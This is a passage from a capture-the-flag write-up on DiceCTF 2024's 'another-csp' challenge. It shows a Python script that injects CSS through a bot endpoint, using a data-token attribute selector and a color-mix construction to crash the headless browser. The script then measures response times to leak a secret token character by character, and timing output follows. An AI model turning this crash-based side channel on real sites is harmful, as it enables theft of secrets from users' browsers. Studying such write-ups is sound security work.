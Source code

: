 ![Aw Snap!](/static/DiceCTF2024/another-csp-awsnap.png)

So I made some initial code to see if whether crashing the site will cause any difference in time

{% ccb caption:timing.py lang:py gutter1:1-7,,8-22 wrapped:true %}
import requests
import time
URL = "https://another-csp-ab646b5e52d72f15.mc.ax/" # change
BOT_URL = URL + "bot"

def check(a):
    code = "<style>[data-token ^= \"" + a + "\"] {--c1: color-mix(in srgb, blue 50%, red);--c2: srgb(from var(--c1) r g b);background-color: var(--c2);}</style>"
    res = requests.get(BOT_URL, params={"code": code}).text
    start_time = time.time()
    while True:
        time.sleep(1)
        res = requests.get(BOT_URL).text
        if res == "no":
            break
        if "404" in res:
            print("ITS JOEVER; THE CONTAINER HAS DIED")
            break
    diff = time.time()-start_time 
    return diff
possible = "0123456789abcdef"
for c in possible:
    print(f"{c}: {check(c)}")
{% endccb %}

which gives:

{% ccb html:true terminal:true %}
0: 3.892151117324829
1: 3.7064714431762695
2: 3.7964861392974854
3: 3.5073633193969727
4: 4.0752739906311035
5: 3.6828672885894775
6: 4.019136428833008
<span class='comment'>7: 36.27450704574585 <--- sus, not the real one, this sometimes happens though</span>
8: 3.5690736770629883
9: 3.879948616027832
a: 3.6855063438415527
b: 4.01620078086853
c: 4.176863431930542
d: 3.8658812046051025
<span class='built_in'>e: 11.673217535018921 <--- real one</span>
f: 3.826751708984375
{% endccb %}

Apparently, [the reason for this working is](https://discord.com/channels/805956008665022475/808122408019165204/1203897576211087430):
> the basic theory here is that puppeteer is awful so if the browser crashes it just ... dies... and will get killed in 10s by the parent process. 

